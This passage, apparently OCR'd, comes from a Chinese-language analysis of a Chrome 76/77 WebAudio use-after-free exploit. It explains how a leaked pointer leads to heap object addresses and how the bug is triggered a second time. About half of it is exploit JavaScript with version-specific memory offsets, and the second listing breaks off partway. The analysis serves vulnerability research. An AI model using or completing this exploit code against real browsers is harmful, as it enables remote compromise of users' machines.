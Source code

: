 
利用代码通过泄漏的指针来获取SuperPage结构体的地址并加以验证。如果一切顺利，那么该指针应该是指向ReverbConvolverStage类的temporary_buffer_对象的裸指针，该指针将传递给回调函数initialUAFCallback。

```
let sharedAudioCtx;
let iirFilterFeedforwardAllocationPtr;

function initialUAFCallback(addr) `{`
    sharedAudioCtx = new OfflineAudioContext(1, 1, 3000);

    let partitionPageIndexDelta = undefined;
    switch (majorVersion) `{`
            case 77: // 77.0.3865.75
                 partitionPageIndexDelta = BigInt(-26);
            break;
            case 76: // 76.0.3809.87
                 partitionPageIndexDelta = BigInt(-25);
                 break;
    `}`

    iirFilterFeedforwardAllocationPtr = getPartitionPageBaseWithinSuperPage(addr, getPartitionPageIndex(addr) + partitionPageIndexDelta) + BigInt(0xFF0);

    triggerSecondUAF(byteSwapBigInt(iirFilterFeedforwardAllocationPtr), finalUAFCallback);
`}`
```

利用代码通过泄漏的指针来获取一个裸指针的地址，该裸指针指向AudioArray &lt;double&gt;类型的feedforward_数组，该数组位于IIRFilterNode创建的IIRProcessor对象中。该数组应该位于同一SuperPage中，但是在不同版本的Chrome里，此对象是在不同的PartitionPages中创建的，并且initialUAFCallback中有专门的代码来处理。

该漏洞实际上不是一次触发，而是两次触发。获取正确对象的地址后，该漏洞将再次被利用。这次利用使用了两个大小不同的AudioBuffer对象，并且先前获取到的地址被喷射到较大的AudioBuffer内部。此函数还递归执行。

```
let floatArray = new Float32Array(10);
let audioBufferArray1 = [];
let audioBufferArray2 = [];
let imageDataArray = [];

async function triggerSecondUAF(addr, doneCb) `{`
    let counter = 0;
    let numChannels = 1;

    let audioCtx = new OfflineAudioContext(1, 0x100000, 48000);

    let bufferSource = audioCtx.createBufferSource();
    let convolver = audioCtx.createConvolver();

    let bigAudioBuffer = audioCtx.createBuffer(numChannels, 0x100, 48000);
    let smallAudioBuffer = audioCtx.createBuffer(numChannels, 0x2, 48000);

    smallAudioBuffer.getChannelData(0).fill(0);

    for (let i = 0; i &lt; numChannels; i++) `{`
            let channelDataArray = new BigUint64Array(bigAudioBuffer.getChannelData(i).buffer);
            channelDataArray[0] = addr;
    `}`

    bufferSource.buffer = bigAudioBuffer;
    convolver.buffer = smallAudioBuffer;

    bufferSource.loop = true;
    bufferSource.loopStart = 0;
    bufferSource.loopEnd = 1;
```